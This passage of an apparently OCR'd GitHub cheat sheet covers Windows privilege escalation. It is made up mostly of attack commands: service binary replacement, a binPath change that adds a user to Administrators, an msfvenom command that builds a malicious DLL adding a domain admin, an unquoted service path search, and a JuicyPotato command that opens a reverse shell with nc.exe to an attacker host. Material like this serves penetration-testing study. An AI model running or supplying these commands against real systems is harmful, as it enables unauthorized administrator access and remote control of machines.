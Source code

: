 NOTE3: Use it from a bash terminal, because it's colors are configured to be seen from a bash terminal.

### Windows Services

Start a service
```
sc start service
```
Stop a service:
```
sc stop service
```

#### Hijack service Binaries

Replace a binary:
```
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Modify a service binary path:
```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

#### Hijack service DLLs

Generating a malicious DLL
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

#### Abuse Unquoted service paths

Search for unquoted service paths
```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### Other Components

#### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

In powershell:
```
Get-ScheduledTask | select TaskName,State
```

#### SeImpersonate Privilege

##### [JuicyPotato](https://github.com/ohpe/juicy-potato)
```
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe $lhost $lport -e cmd.exe" -t * <-c "{clsid}">
```

